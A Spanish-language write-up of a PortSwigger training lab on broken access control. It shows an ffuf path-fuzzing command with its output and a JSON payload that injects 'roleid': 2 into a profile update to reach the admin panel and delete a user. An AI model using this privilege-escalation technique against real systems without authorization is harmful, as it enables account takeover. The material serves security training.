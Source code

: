 ```yaml
---
title: User role can be modified in user profile
description: Laboratorio de Portswigger sobre Broken Access Control
date: 2024-12-04 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Broken Access Control
tags:
  - Portswigger Labs
  - Broken Access Control
  - User role can be modified in user profile
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene un `panel de administración` en `/admin`. Solo es accesible para `usuarios autenticados` con un `roleid` de `2`. Para `resolver` el laboratorio, debemos `acceder` al `panel de administración` y `eliminar` al `usuario carlos`. Podemos `iniciar sesión` en tu nuestra cuenta con las siguientes credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Broken-Access-Control-Lab-4/image_1.png)

Pulsamos en `My account` y nos logueamos con las credenciales `wiener:peter`

![](/assets/img/Broken-Access-Control-Lab-4/image_2.png)

`Fuzzeamos` rutas y encontramos una llamada `/admin`

```
# ffuf -c -t 20 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://0a0600100345e4df8263e5a700810033.web-security-academy.net/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a0600100345e4df8263e5a700810033.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

ADMIN                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 63ms]
Admin                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 59ms]
Login                   [Status: 200, Size: 3051, Words: 1287, Lines: 63, Duration: 67ms]
admin                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 61ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 55ms]
favicon.ico             [Status: 200, Size: 15406, Words: 11, Lines: 1, Duration: 56ms]
filter                  [Status: 200, Size: 10778, Words: 5080, Lines: 199, Duration: 63ms]
login                   [Status: 200, Size: 3051, Words: 1287, Lines: 63, Duration: 61ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 60ms]
my-account              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 59ms]
```

Si accedemos a `/admin` nos `muestra` este `mensaje`

![](/assets/img/Broken-Access-Control-Lab-4/image_3.png)

En la parte de `My account` vemos que podemos `actualizar` nuestro `email`

![](/assets/img/Broken-Access-Control-Lab-4/image_4.png)

Si `interceptamos` la `petición` mediante `Burpsuite` vemos esto

![](/assets/img/Broken-Access-Control-Lab-4/image_5.png)

Si `enviamos` la `petición`, esta es la `repuesta` que `recibimos`

![](/assets/img/Broken-Access-Control-Lab-4/image_6.png)

Podemos `enviar` este `payload` en el cual cambiamos nuestro `roleid` a `2` con el fin de `escalar privilegios`

```
{
	"email":"wiener@normal-user.net",
	"roleid": 2
}
```

Una vez `ascendido` nuestro `privilegio` ya podemos `acceder` a `/admin`, `borrar` al usuario `carlos` y `ascender` nuestro `privilegio`

![](/assets/img/Broken-Access-Control-Lab-4/image_7.png)
